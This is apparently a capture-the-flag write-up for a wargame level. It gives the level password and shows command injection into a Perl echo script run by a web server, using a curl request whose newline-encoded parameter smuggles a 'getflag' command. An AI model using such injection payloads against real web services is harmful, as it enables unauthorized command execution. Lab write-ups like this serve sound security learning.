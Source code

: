 # Level 04

## Password
> qi0maab88jeaj46qoumi7maus

## Steps
1. ```cat ~/level04.pl```
   - This perl script is executed by a web server and perform an echo command
2. Inject the getflag command into the script with ```curl localhost:4747?x=%0agetflag```